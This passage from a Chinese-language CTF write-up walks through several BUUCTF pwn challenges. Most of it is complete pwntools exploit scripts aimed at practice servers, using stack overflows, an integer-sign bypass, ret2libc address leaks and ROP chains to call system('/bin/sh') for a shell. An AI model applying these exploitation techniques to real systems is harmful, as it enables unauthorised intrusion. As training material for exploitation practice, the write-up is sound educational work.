context(log_level = 'debug')

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]
main_addr = e.symbols["main"]

bss_addr = 0x0804A300
leave_ret_addr = 0x08048408

payload1 = p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(write_got_addr) + p32(4)

r.recvuntil("name?")
r.sendline(payload1)

offset = 0x18
payload2 = 'a'*offset + p32(bss_addr - 4) + p32(leave_ret_addr)

r.recvuntil("say?")
r.sendline(payload2)

write_addr = u32(r.recv(4))
print(hex(write_addr))

write_offset = 0x000D43C0
system_offset = 0x0003A940
binsh_offset = 0x0015902b

base_addr = write_addr - write_offset
system_addr = base_addr + system_offset
binsh_addr = base_addr + binsh_offset

r.recvuntil("name?")

payload3 = p32(system_addr) + p32(1) + p32(binsh_addr)
r.sendline(payload3)

r.recvuntil("say?")
r.sendline(payload2)

r.interactive() 
```

# 0x1F ：jarvisoj_tell_me_something

程序分析：**<font>64位程序，开启了NX保护</font>**，然后打开 IDA， 查看一下源代码

存在溢出条件（read函数溢出），查看是否存在后后门地址

在good_game里面存在flag.txt。找到溢出条件和后门地址以后就可以写exp了。不过这道题的偏移量在IDA里面是错误的。需要在gdb里面找了，这个可以看[https://blog.csdn.net/m0_38100569/article/details/99658451](https://blog.csdn.net/m0_38100569/article/details/99658451)

```
gdb-peda$ pattern offset AAQA
AAQA found at offset: 136 
```

exp：

```
from pwn import *

r = remote('node3.buuoj.cn',29755)

offset = 136
payload = offset*'a' + p64(0x400620)

r.recvuntil("Input your message:\n")
r.sendline(payload)

r.interactive() 
```

# 0x20 ：bjdctf_2020_babystack2

程序分析：**<font>64位程序，开启了NX保护</font>**，然后打开 IDA， 查看一下源代码

可以发现这里存在数据强行转换。只要你输入一个负数，unsigned int就会强行转换成正数。而前面是signed不会转换，不会执行if。

不过这里需要注意的是：远程可以跑通，但是本地跑不通

```
from pwn import *

r = remote('node3.buuoj.cn',25509)

r.recvuntil("Please input the length of your name:\n")
r.sendline('-1')

offset = 0x10 + 8
backdoor_addr = 0x0400726
payload = offset*'a' + p64(backdoor_addr)

r.recvuntil("What's u name?")
r.sendline(payload)
r.interactive() 
```

# 0x21 ：jarvisoj_level4

程序分析：**<font>32位程序，开启了NX保护</font>**，然后打开 IDA， 查看一下源代码

程序代码简单，存在溢出条件。shift+f12没有后门地址。开启了NX保护。l所以用ibc泄露system函数。
exp ：

```
from pwn import *

r = remote("node3.buuoj.cn",29451)

e = ELF("./pwn")

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]
main_addr = e.symbols["main"]

offset = 0x88 + 4
payload = offset*'a' + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(write_got_addr) + p32(4)

r.sendline(payload)

write_addr = u32(r.recv(4))
print(hex(write_addr))

write_offset = 0x000D43C0
system_offset = 0x0003A940
binsh_offset = 0x0015902b

base_addr = write_addr - write_offset
system_addr = base_addr + system_offset
binsh_addr = base_addr + binsh_offset

payload = offset*'a' + p32(system_addr) + p32(1) + p32(binsh_addr)

r.sendline(payload)
r.interactive() 
```

exp分析 ：

> write_offset = 0x000D43C0
> system_offset = 0x0003A940
> binsh_offset = 0x0015902b

这里的write函数偏移地址和system偏移地址可以在buuctf里面给出的lib文件找。而binsh参数需要在linux里面利用libc版本找了，具体操作：

```
muggle@muggle-virtual-machine:~/CTF-Pwn/other$ ROPgadget --binary libc-2.23.so --string "/bin/sh"
Strings information
============================================================
0x0015902b : /bin/sh 
```

# 0x22 ：jarvisoj_level3_x64

程序分析：**<font>64位程序，开启了NX保护</font>**，然后打开 IDA， 查看一下源代码


程序源代码简单，存在read溢出条件。查找字符串没有发现后门地址，开启了NX保护，利用libc泄露system函数地址
exp ：

```
from pwn import *

r = remote("node3.buuoj.cn",28636)

e = ELF("./pwn")
context(log_level= 'debug')

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]
main_addr = e.symbols["main"]
rdi_addr_ret = 0x004006b3
rsi_addr_ret = 0x04006b1

offset = 0x80 + 8
payload1 = offset*'a' + p64(rdi_addr_ret) + p64(1) + p64(rsi_addr_ret) + p64(write_got_addr) + p64(0) + p64(write_plt_addr) + p64(main_addr)

r.recvuntil("Input:\n")
r.sendline(payload1)
write_addr = u64(r.recv(8))
print(hex(write_addr))

write_offset = 0x00F72B0
system_offset = 0x045390 
binsh_offset = 0x018CD57

base_addr = write_addr - write_offset
system_addr = base_addr + system_offset
binsh_addr = base_addr + binsh_offset

payload2 = offset*'a' + p64(rdi_addr_ret) + p64(binsh_addr) + p64(system_addr)
r.sendline(payload2)
r.interactive() 
```

exp分析 ：

> payload1 = offset*‘a’ + p64(rdi_addr_ret) + p64(1) + p64(rsi_addr_ret) + p64(write_got_addr) + p64(0) + p64(write_plt_addr) + p64(main_addr)

64位和32位的传参不同，64位有6个参数，它会先进行传参，传参时需要先找到位置。像这道题是利用write函数泄露write函数真正的地址。write函数有三个参数，所以先传三个参数，找地址的方式为

```
muggle@muggle-virtual-machine:~/CTF-Pwn/other$ ROPgadget --binary ./pwn --only "pop|ret"
Gadgets information
============================================================
0x00000000004006ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop r14 ; pop r15 ; ret
0x00000000004006b2 : pop r15 ; ret
0x00000000004006ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400550 : pop rbp ; ret
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
0x00000000004006ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400499 : ret 
```

第一个参数存放在rdi中，存放内容为1，第二个参数存放在rsi中，内容为write函数的真正地址，至于第三个参数地址是可以不需要的，因为write函数第三个是存放的是输出大小，管他随机是多少。接下来就是返回地址·，然后是预留返回地址。